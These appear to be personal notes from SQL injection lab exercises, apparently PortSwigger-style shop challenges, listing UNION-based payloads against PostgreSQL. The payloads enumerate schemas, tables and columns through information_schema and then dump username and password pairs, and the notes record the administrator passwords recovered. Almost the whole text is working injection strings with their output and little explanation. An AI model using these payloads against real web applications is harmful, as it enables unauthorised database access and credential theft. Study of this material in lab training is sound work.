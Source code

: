 gifts' union select column_name, NULL from information_schema.columns where table_schema = 'public' and column_name='users' -- - (select just one)

gifts' union select username,password from public.users -- - (selecting the data from public.users)


administrator
h3978x0jlltq0pumgw97

---------------------------------------------------------------------

POSTGRESQL


gifts' union select NULL,schema_name from information_schema.schemata -- - (public is the db)

gifts' union select NULL,table_name from information_schema.tables where table_schema='public' -- - (selecting tables from db='public')-we find "users"

gifts' union select NULL,column_name from information_schema.columns where table_schema='public' -- - (selecting all the columns from the db='public')

gifts' union select NULL,username ||':'||password from public.users -- -


administrator:d829s8z2l1kvhp0f9x2p


-----------------------------------------------------------------
POSTGRESQL

all tables
Pets' union select table_name,NULL  from information_schema.tables -- -

	
Select just the ones from the public

pets' union select table_name, null from information_schema.tables where table_schema='public' -- -

TABLE_NAME=users_pvvenn

pets' union select column_name,null from information_schema.columns where table_schema='public' AND table_name='users_pvvenn' -- -

COLUMNS=password_dlqybq,username_jdmbfk

pets' union select password_dlqybq||':'|| username_jdmbfk,NULL from public.users_pvvenn -- -


7c1ncv9i4tuebfehlr7h:administrator

--------------------------------------------------------------


Cookie: TrackingId
(This cookie is procesed on MYSQL, so pay atention to this if you see it in the future)


